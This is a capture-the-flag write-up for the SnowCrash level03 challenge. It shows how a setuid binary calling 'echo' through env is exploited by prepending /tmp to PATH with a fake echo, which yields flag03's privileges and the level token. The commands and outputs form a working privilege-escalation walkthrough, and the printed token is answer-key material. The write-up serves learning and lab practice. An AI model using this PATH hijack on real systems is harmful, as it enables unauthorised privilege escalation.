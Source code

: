 Level03 instructions

On the home directory we have a binary file `level03`, executed with the permission of the owner `flag03`
```
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03*
```
executing the file give nothing
```
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$ ./level03 hh
Exploit me
```

Analyzing Binaries
Tools to examine and reverse-engineer binaries:

- file: Identifies the type of file (e.g., ELF executable, shared object).
- strings: Extracts readable strings from a binary, often useful for finding hints.
- readelf: Displays information about ELF headers, sections, symbols, etc.
- objdump: Disassembles binary code and provides detailed analysis.
- nm: Lists symbols (functions, variables) in an object file or binary.
- ltrace: Traces library calls made by a binary during execution.
- strace: Tracks system calls made by a binary.

Let's try to analyze it with `ltrace`
```
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7c4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                                 = 2003
geteuid()                                                                                 = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                       = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                       = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                    = 0
+++ exited (status 0) +++
level03@SnowCrash:~$
```
On the system call we have env command that run a program in a modified environment, means prepare the environment before running the command. as we notice on the command echo, there is no slashes, means it will use $PATH from the environment to search for the command.
We can use that to change default echo to our vulnerable echo by putting our path in the beginning of $PATH
We will use the /tmp folder since we don't have the right to write else where

```
level03@SnowCrash:~$ echo id > /tmp/echo
level03@SnowCrash:~$ chmod +x /tmp/echo
level03@SnowCrash:~$ export PATH=/tmp:$PATH
level03@SnowCrash:~$ ./level03
uid=3003(flag03) gid=2003(level03) groups=3003(flag03),100(users),2003(level03)
```
Since we are sure that the command on `/tmp/echo` will run as `flag03` we can now replace `id` with `getflag` to get the token for the next level.
```
level03@SnowCrash:~$ echo getflag > /tmp/echo
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$
level03@SnowCrash:~$ su level04
Password:
level04@SnowCrash:~$
```
